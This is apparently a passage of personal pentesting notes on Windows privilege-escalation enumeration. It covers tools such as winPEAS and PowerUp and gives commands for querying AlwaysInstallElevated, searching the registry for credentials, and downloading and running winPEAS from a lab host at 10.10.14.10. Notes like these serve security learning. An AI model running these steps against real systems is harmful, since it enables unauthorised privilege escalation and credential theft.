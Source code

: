 ```bat

#-Binaries autoelevate
reg query //AlwaysInstallElevated

```
## auto enum
+ [watson](https://github.com/rasta-mouse/Watson)
+ [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) (Winpeas has watson embedded)
+ [SherLock](https://github.com/rasta-mouse/Sherlock), powershell
+ [powerup](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

### winpeas
+ hacktrick checklist,[checklist win privesc](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
+ git,[winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
+ exe需.net framework 4.0环境
+ 无.net考虑使用bat
+ 颜色标注重要信息，修改注册表修复

```bat
# 修复颜色显示问题
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1

winPEASany.exe cmd > output.txt
less -R output.txt
cat output.txt

wpeas.exe log=c:\test\out.txt

# windows creds search, registry
winpeasany.exe quiet cmd windowscreds

# powershell
IWR -uri http://10.10.14.10:9999/winPEASx64.exe -OutFile winPEASx64.exe
.\winpeasx64.exe

# check the .net version
## go to windows\Microsoft.Net\Framework64
## check the folder name, with version; 
## google and verify 
dir c:\windows\Microsoft.Net\Framework64

```

### Powerup
+ git: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
+ usage: https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/
+ PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.
